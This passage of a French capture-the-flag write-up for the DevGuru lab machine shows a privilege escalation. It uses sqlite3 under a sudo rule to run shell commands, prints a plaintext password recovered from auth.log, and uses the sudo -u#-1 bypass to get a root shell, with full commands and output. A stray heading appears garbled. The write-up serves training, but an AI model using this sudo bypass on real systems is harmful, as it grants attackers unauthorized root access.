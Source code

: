 Je m’empresse de rajouter ma clé publique SSH au fichier *.ssh/authorized keys* pour utiliser le serveur SSH à la place du Ncat.  

unsigned int
------------

```plain
frank@devguru:~$ cat user.txt  
22854d0aec6ba776f9d35bf7b0e00217
frank@devguru:~$ sudo -l 
Matching Defaults entries for frank on devguru: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 

User frank may run the following commands on devguru: 
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3
```

Je peux lancer sqlite3 en tant que n'importe quel utilisateur... sauf root !  

sqlite3 dispose d'une commande *.system* pour exécuter des commandes mais si je ne peux pas taper sur root, quel est ma cible ?  

J'ai noté des dossiers sous */data* liés à un utilisateur manquant. J'ai donc fouillé dans ce sens :  

```plain
frank@devguru:~$ ls -ld /data/backups/ 
drwx------ 2 998 root 4096 Nov 18  2020 /data/backups/

frank@devguru:~$ sudo -u \#998 /usr/bin/sqlite3 
SQLite version 3.22.0 2018-01-22 18:45:57 
Enter ".help" for usage hints. 
Connected to a transient in-memory database. 
Use ".open FILENAME" to reopen on a persistent database. 
sqlite> .system ls /data/backups -al 
total 8 
drwx------  2  998 root 4096 Nov 18  2020 . 
drwxr-xr-x 20 root root 4096 Nov 18  2020 ..
```

Il y avait d'autres dossiers mais rien d'intéressant. J'ai ensuite regardé l'utilisateur *syslog* car il dispose de droits sur */var/log/auth.log*. J'ai juste trouvé ceci :  

```plain
Nov 19 02:27:34 corp sudo:    frank : TTY=pts/0 ; PWD=/root ; USER=root ;
    COMMAND=/usr/local/bin/gitea admin create-user --username frank --password 52QCem2uwtGLHEVQ --email frank@corp.local -c /etc/gitea/app.ini
```

Heureusement je me rappelais vaguement d'une faille pour sudo ou sudoedit [où l'on passait un ID d'utilisateur amusant](https://www.exploit-db.com/exploits/47502).  

En regardant la description de l'exploit on comprends qu'il s'agit exactement de cette situation, c'est donc la solution attendue :  

```plain
frank@devguru:~$ sudo -u \#-1 /usr/bin/sqlite3   
SQLite version 3.22.0 2018-01-22 18:45:57 
Enter ".help" for usage hints. 
Connected to a transient in-memory database. 
Use ".open FILENAME" to reopen on a persistent database. 
sqlite> .system /bin/bash 
root@devguru:~# id 
uid=0(root) gid=1000(frank) groups=1000(frank) 
root@devguru:~# cd /root 
root@devguru:/root# ls 
msg.txt  root.txt 
root@devguru:/root# cat root.txt 
96440606fb88aa7497cde5a8e68daf8f 
```